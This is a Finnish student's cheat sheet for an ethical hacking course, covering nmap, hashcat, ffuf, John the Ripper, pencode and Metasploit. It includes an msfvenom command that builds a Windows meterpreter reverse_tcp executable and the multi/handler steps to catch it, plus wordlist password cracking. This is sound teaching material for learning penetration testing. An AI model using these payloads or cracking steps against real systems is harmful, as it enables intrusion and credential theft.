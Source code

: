 
    
 # H6
 
### Laitteisto
 
* Käyttöjärjestelmä	Microsoft Windows 10 Enterprise LTSC 64 bit
* Prosessori i5-6600
* RAM 16 GB
* Virtuaaliohjelmisto : Oracle VM VirtualBox
* Virtuaali käyttöjärjestelmä: Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4

 ## A) Cheat sheet

### NMAP
 
    mmap 192.168.1.1 ##Scan a single IP
    nmap 192.168.1.1 192.168.2.1 ##Scan specific IPs
    nmap 192.168.1.1-254 ##Scan a range
    nmap scanme.nmap.org ##Scan a domain
    nmap 192.168.1.0/24 ##Scan using CIDR notation
    -iL nmap -iL targets.txt ##Scan targets from a file
    -iR nmap -iR 100 ##Scan 100 random hosts
    -exclude nmap -exclude 192.168.1.1 ##Exclude listed host

### HASHCAT
    
    hashid -m 'tiivistejokatunnistaahaschatalgorithim'

Komento tunnistaa tiivisteen muodon ja antaa Hascat tilan millä tiiviste voidaan murtaa

    hashcat -m 0 '6d9f3a7ed4d276cfd46f721079971171' /usr/share/wordlists/rockyou.txt

    **FFUF**

Fuzzaamiseen käytetty ohjelma.

    ./ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://127.0.0.2:8000/FUZZ

Komento pilkottuna: 

 - ./fuff : Ajaa FFuf ohjelman
 - -w : Mitä sanalistaa ohjelma käyttää
 - /usr/share/wordlists/wfuzz/general/common.txt : Sanalistani sijainti
 - -u : Määrittää kohteen
 - http:127.0.0.2:8000/FUZZ : Fuzz sana on placeholder. Ohjelma kokeilee siihen kohtaan sanalistassa olevat vaihtoehdot.

**John The ripper**

John the ripper on Hashcatin tapainen ohjelma joka toimii hieman eri tavalla.

Käyttö:

    ./john tero.zip.hash ## Luo tiivisteen tiedostomuodosta joka on salasana suojattu

    ./john tero.zip.hash ## Ajaa ohjelman ja murtaa tiedoston tero.zip.hash

John the ripper ei mielestäni ole hirveän käyttömukava ja Hashcat on mieluisampi.

**MSFVENOM ja METASPLOITABLE**

MSFVENOM avulla voi luoda ajettavia haittaohjelmia. Msfvenomin käyttö jäi minulle hieman epäselväksi mutta sivustolta : https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom sain hyviä vinkkejä.

    msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

Esimerkki

    msfv -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -f exe

Yllöoleva komento luo reverse tcp haittaohjelman joka kuuntelee osoitetta 127.0.0.1:80 ja ohjelma on .exe ajettava.

Metasploitablen käyttöön löysin hyvän sivuston missä vinkkejä sen käytöstä: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

Multi/handler:

    msfconsole
    use multi/handler/payload
    SET payload <haittaohjelma>
    SET LHOST <kuunteluosoite>
    SET LPORT <kuunteluportti>
    run -j ## Ajaa multihandlerin taustalla.

    
Metasploitableen on olemassa hyvä cheatsheet kuvana: 

![image](https://github.com/FredrikAkerlund/Starting-pentesting/assets/122887178/68fbebe5-8878-4be8-925f-cfa19839fb80)

Kuvan lähde: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

**Pencode**

Pencode avulla voi helposti koodata stringejä haluamaksi

    echo 'hello world' | pencode md5   ## Koodaa hello world MD5 tiivisteeksi     
        5eb63bbbe01eeed093cb22bb8f5acdc3 ##MD5 tiiviste****


    pencode - complex payload encoder v0.4

    Usage: ./pencode FUNC1 FUNC2 FUNC3...
    
    ./pencode reads input from stdin by default, which is typically piped from another process.
    
    OPTIONS:
    -input reads input from a file, line by line.
    
    ENCODERS
      b64encode         - Base64 encoder
      hexencode         - Hex string encoder
      htmlescape        - HTML escape
      jsonescape        - JSON escape
      unicodeencodeall  - Unicode escape string encode (all characters)
      urlencode         - URL encode reserved characters
      urlencodeall      - URL encode all characters
      utf16             - UTF-16 encoder (Little Endian)
      utf16be           - UTF-16 encoder (Big Endian)
      xmlescape         - XML escape
    
    DECODERS
      b64decode         - Base64 decoder
      hexdecode         - Hex string decoder
      htmlunescape      - HTML unescape
      jsonunescape      - JSON unescape
      unicodedecode     - Unicode escape string decode
      urldecode         - URL decode
      xmlunescape       - XML unescape
    
    HASHES
      md5               - MD5 sum
      sha1              - SHA1 checksum
      sha224            - SHA224 checksum
      sha256            - SHA256 checksum
      sha384            - SHA384 checksum
      sha512            - SHA512 checksum
    
    OTHER
      filename.tmpl     - Replaces string #PAYLOAD# in content of a file that has .tmpl extension.
      lower             - Convert string to lowercase
      upper             - Convert string to uppercase


 
## B)


## Lähteet



Tunkeutumistestaus 2024, Tero Karvinen (https://terokarvinen.com/2024/eettinen-hakkerointi-2024/)

Oracle VM Virtual Box versio 7.0.14  (https://www.virtualbox.org/)

Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4. (https://www.kali.org/get-kali/#kali-platforms)

 WADComs  (https://wadcoms.github.io/)

 WithSecuren tarjoamat luentokalvot




#### Tehnyt Roi Partanen 28.4.2024
